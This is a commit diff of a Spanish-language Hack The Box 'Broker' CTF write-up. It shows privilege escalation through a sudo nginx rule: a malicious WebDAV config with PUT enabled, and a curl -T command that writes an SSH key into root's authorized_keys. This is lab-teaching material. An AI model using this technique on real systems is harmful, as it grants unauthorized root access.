

Before and after one commit to germanvegaa/writeups, a Markdown page: HTB/broker/README.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Fix Broker writeup: drop typo mention, credit GTFOBins, note env file check

````diff
--- a/HTB/broker/README.md
+++ b/HTB/broker/README.md
@@ -97,6 +97,8 @@ export TERM=xterm-256color
 export SHELL=bash
 ```
 
+Ya en el directorio de instalación (`/opt/apache-activemq-5.15.15/bin`) revisé el archivo `env` por si tenía alguna credencial o dato útil embebido; solo contiene configuración estándar de arranque (memoria de la JVM, rutas de JMX comentadas, etc.), nada aprovechable.
+
 Flag de usuario en `/home/activemq/user.txt`.
 
 ## Escalada a root
@@ -110,7 +112,7 @@ User activemq may run the following commands on broker:
     (ALL : ALL) NOPASSWD: /usr/sbin/nginx
 ```
 
-`activemq` puede lanzar `nginx` como root sin contraseña, con la ruta de configuración libre. Escribí una configuración maliciosa que sirve todo el sistema de archivos por WebDAV con el método PUT habilitado:
+`activemq` puede lanzar `nginx` como root sin contraseña, con la ruta de configuración libre. Consulté GTFOBins para la entrada de `nginx` en `sudo`: la técnica es levantar una instancia con una configuración propia que sirva todo el sistema de archivos por WebDAV con el método PUT habilitado, para poder escribir como root. Escribí esa configuración:
 
 ```
 cat << EOF > /tmp/nginx_pwn.conf
@@ -139,7 +141,7 @@ ssh-keygen
 # guardada como "root" / "root.pub"
 ```
 
-Al subir la clave pública tecleé mal el comando la primera vez (`cur` en vez de `curl`, "command not found"). Corregido, subí `root.pub` como `authorized_keys` de root vía PUT:
+Subí `root.pub` como `authorized_keys` de root vía PUT:
 
 ```
 curl -T root.pub http://localhost:1339/root/.ssh/authorized_keys
````
